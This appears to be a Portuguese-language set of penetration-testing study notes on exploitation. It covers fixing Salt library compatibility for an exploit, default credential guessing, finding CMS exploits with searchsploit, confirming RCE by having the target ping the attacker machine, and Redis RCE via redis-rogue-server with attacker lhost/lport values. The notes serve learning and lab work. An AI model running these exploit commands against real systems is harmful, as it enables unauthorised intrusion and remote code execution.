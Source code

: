 ## Exploitation

### Python Compatibility Issues in Exploits

Alguns exploits requerem bibliotecas específicas que podem ter problemas de compatibilidade com versões mais recentes do Python. No caso de exploits que utilizam a biblioteca **Salt**, por exemplo, ajustes podem ser necessários para garantir que tudo funcione corretamente.

#### Exemplo de Solução

```
# Criar um ambiente virtual para isolar a versão do Python
python3 -m venv env
. ./env/bin/activate

# Instalar dependências necessárias para o exploit
pip install distro salt

# Corrigir incompatibilidades na biblioteca Salt com Python 3.8+
sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py
sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

Essas adaptações são para garantir a compatibilidade da biblioteca Salt com Python 3.8, o que permite que o exploit funcione corretamente no ambiente configurado.

### Default Credential Guessing

```bash
# Teste de credenciais padrão comuns (exemplo: admin:admin, root:root) para acessar painéis de administração e outros serviços.
# Essa etapa é fundamental pois muitos sistemas mantêm credenciais padrão, que representam uma vulnerabilidade crítica.
```

**Nota**: Tentar credenciais padrão é uma abordagem inicial essencial, pois muitos sistemas ainda utilizam configurações padrão, oferecendo acesso administrativo sem autenticação personalizada.


### Exploração de CMS (Content Management Systems)

Ao encontrar um CMS, é importante identificar a versão exata da aplicação, pois muitos CMS populares possuem vulnerabilidades publicamente conhecidas que podem ser exploradas. Seguem os passos recomendados:

1. **Identificar a Versão do CMS**: Busque a versão nas páginas de login, rodapé, ou nos arquivos de configuração acessíveis. Conhecer a versão é essencial para direcionar a pesquisa de exploits.

2. **Pesquisa de Exploits Públicos**: Utilize ferramentas como `searchsploit` para buscar exploits específicos para essa versão.
   ```bash
   # Atualiza o banco de dados do searchsploit
   searchsploit -u

   # Exemplo de busca e cópia de um exploit
   searshsploit Joomla 
   searchsploit -m <exploit_id>
   ```

3. **Verificar Necessidade de Autenticação**: Muitos exploits de CMS são autenticados, ou seja, requerem login para serem utilizados. Verifique se é necessário credenciais válidas antes de iniciar o exploit.

4. **Exploração Comum (RCE, File Upload Bypass, SQLi)**: CMS frequentemente possuem vulnerabilidades de execução remota de código (RCE), bypass no upload de arquivos, e injeção SQL (SQLi), que permitem controle sobre o sistema.

**Nota**: A exploração de CMS é uma etapa crítica em pentests, pois muitas vezes esses sistemas contêm dados sensíveis e controles administrativos. Use exploits com cautela, sempre verificando os requisitos e condições para a execução.

---

## Teste de RCE com Ping

### Passo 1: Executar o Exploit com Comando Ping
Execute o exploit com um comando `ping` apontando para o IP da sua máquina de ataque:

```
python3 exploit.py -c 'ping -c1 <IP_da_máquina_de_ataque>' -t <URL_do_alvo>
```

> Exemplo: `python3 exploit.py -c 'ping -c1 192.168.145.128' -t http://192.168.145.160/grav-admin`

### Passo 2: Capturar o Tráfego com tcpdump
Na máquina de ataque, use `tcpdump` para monitorar pacotes ICMP e verificar se o ping chega:

```
tcpdump -i <interface> icmp
```

> Exemplo: `tcpdump -i tun0 icmp`

### Resultado Esperado
Se o exploit funcionar, você verá pacotes `ICMP echo request` e `echo reply` no tcpdump, confirmando a execução do comando `ping` no alvo.


**Resumindo:**
1. **Exploit**: `python3 exploit.py -c 'ping -c1 <IP_atacante>' -t <URL_alvo>`
2. **Monitorar**: `tcpdump -i <interface> icmp`
3. **Confirmação**: Pacotes ICMP indicam sucesso do RCE.

---

### Redis RCE Exploitation

Explorando vulnerabilidades em Redis (versão <=5.0.5) para obter Execução Remota de Comando (RCE) utilizando o exploit **Redis Rogue Server**.

Passo 1: Executar o Exploit com redis-rogue-server

O comando abaixo configura o Redis Rogue Server para se conectar ao Redis alvo e obter RCE. Substitua `<rhost>`, `<rport>`, `<lhost>`, e `<lport>` conforme necessário:

https://github.com/n0b0dyCN/redis-rogue-server?source=post_page-----49920d4188de--------------------------------

```
./redis-rogue-server.py --rhost=<IP_do_Alvo> --rport=<Porta_do_Alvo> --lhost=<IP_de_Loopback> --lport=<Porta_de_Loopback>
```

Exemplo
```
./redis-rogue-server.py --rhost=192.168.245.176 --rport=6379 --lhost=192.168.45.168 --lport=4443
```

Ou, para outro repositório:

https://github.com/Testzero-wz/Awsome-Redis-Rogue-Server
```
python3 redis_rogue_server.py -rhost 192.168.120.118 -lhost 192.168.118.23
```

---
